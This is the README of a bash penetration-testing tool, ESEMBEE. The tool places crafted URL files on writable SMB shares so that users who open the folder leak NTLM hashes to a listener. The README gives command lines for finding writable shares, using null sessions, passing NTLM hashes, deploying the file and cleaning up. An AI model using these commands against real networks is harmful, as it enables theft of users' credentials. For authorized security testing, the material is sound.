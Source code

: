 # ESEMBEE--A tool for URL File attacks targeting SMB shares 

ESEMBEE is a tool written in bash that aids in the process of utilizing malicious URL files in writeable file shares to capture user hashes. Below you'll find a quick synopsis of what a URL file is, how it is used in penetration testing to capture hashes and some examples of how the Esembee shell script can be leveraged to aid in the process of identifying writable shares, creating a URL file, placing the URL file in the writeable shares, and ultimately cleaning up the environment once the engagement is over. 

## What is a URL file?

To keep it simple a URL file is a file that points to a specific URL. This file is typically utilized as a shortcut to a webpage. An example of a legitimate URL file is below. 

## Leveraging a URL to Capture Hashes

Utilizing a specifically crafted URL file, a pentester can capture hashes of the users that simply browse to the directory location of the URL file. The reason for this due to the way the URL file is created. When a user browses to a directory hosting the URL file, the URL file forces the user to request an icon file from and provide authentication to the IP listed in the URL file. However, instead of providng an icon, the IP will be listening for and waiting for this authentication request to occur. Typically a tool like Responder will be utilized to capture this hash, however, other tools can be leveraged as well. 

The best part is that all of these requests and authentication efforts are done in the background and the user does not need to even open the URL file. As long as the user opens the directory then this attack can be leveraged. 

With that being said, an ideal target directory for this URL file will be a shared file share. 

# Utilizing the ESEMBEE script

With this attack method in mind, the ESEMBEE script was written to aid in the process of performing an URL file attack. ESEMBEE has the following requirements:
1. Domain User creds (either a NTLM hash or a cleartext password) UPDATE:ESEMBEE can now check for Null sessions. the -u and -p options must still be used. 
2. A Target
   * This can be a txt of IPs with the -f option OR
   * This can be a single IP with (-I) along with a specific share with (-S)


## Target Options

With ESEMBEE, a target can be specified in different ways. A txt of IPs where every found writeable share will have a URL file placed or for a more targeted approach, a single IP and share can be specified. 





## Finding Writeable Shares

Using the context of a domain user, ESEMBEE can use the -t option to determine if a share is writeable

```
./esembee.sh -u DOMAIN/USER -p PASSWORD/HASH -f <scope.txt> -t
```
Esembee can also be used to search for null sessions with the following syntax.

```
./esembee.sh -u 'null' -p '-N' -f <scope.txt> -t
```
## URL File Options

esembee will create a URL file and request the IP for the malicious file when it is ran. You can also specify the URL file IP with the -L option if you want to skip the required prompt and perform a single command.  Alternatively, you specify an already created URL file with the -F option. 

##### syntax to Specify a Listener IP
```
./esembee.sh -u DOMAIN/USER -p PASSWORD/HASH -f <scope.txt> -L <ListenerIP>
```

##### Syntax to just run the URL file Generator

```
./esembee.sh -G
```

##### Syntax to Specify an already generated URL file

```
./esembee.sh -u DOMAIN/USER -p PASSWORD/HASH -f <scope.txt> -F <FILE.URL>

```
## Authentication Options

ESEMBEE can utilize both a cleartext password and an NTLM Hash to authenticate to the targeted shares. Regardless of the authentication method, the authentication should follow the -p argument. If the authentication used is an NTLM hash, simply add a -H tag to your command and the --ntlm-as-pass option for SMB client will be passed through. 

Additionally, a null session can also be used. to leverage a null session set the -u option to 'null' and the -p option to '-N'




##### Using an NTLM Hash for Authentication

```
./esembee.sh -u DOMAIN/USER -p PASSWORD/HASH -H -f <scope.txt> -F <FILE.URL>
```

##### Using NULL Sessions

```
./esembee.sh -u NULL -p '-N' -H -f <scope.txt> -F <FILE.URL>
```

## Cleanup Utility

```
./esembee.sh -u DOMAIN/USER -p PASSWORD/HASH -H -f <scope.txt> -F <FILE.URL> -C
```

